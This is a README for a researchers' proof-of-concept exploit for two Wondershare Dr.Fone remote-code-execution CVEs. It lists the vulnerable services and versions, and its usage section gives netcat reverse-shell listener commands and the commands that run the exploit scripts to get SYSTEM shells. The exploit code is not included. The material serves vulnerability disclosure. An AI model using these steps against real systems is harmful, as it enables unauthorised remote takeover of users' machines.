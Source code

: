 # WonderShell
# CVE - 2021-44595 & CVE - 2021-44596

## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Description
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .\
Dr.Fone is a phone toolkit develop by wondershare , and vulnerable to RCE.\
Only with network access we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications
https://medium.com/@tomerp_77017/wondershell-a82372914f26




